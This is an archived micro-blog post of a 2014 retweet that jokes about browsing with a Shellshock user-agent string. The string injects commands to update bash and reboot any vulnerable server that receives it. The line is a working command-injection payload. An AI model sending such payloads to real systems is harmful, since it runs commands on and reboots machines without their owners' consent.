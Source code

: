 ```yaml
---
title: 
category: micro
date: "2014-09-26T17:38:32"
slug: "2014-09-26T17:38:32"
TwitterId: 515556038792081409
TweetUrl: https://twitter.com/mark_philpot/status/515556038792081409
ReTweetUser: pixnbits
---
```


<i class="fa fa-retweet" aria-hidden="true"></i> browsing the web with user agent
`() {.:;.}; yum -y update bash; apt-get -y update bash; reboot`
#shellshock
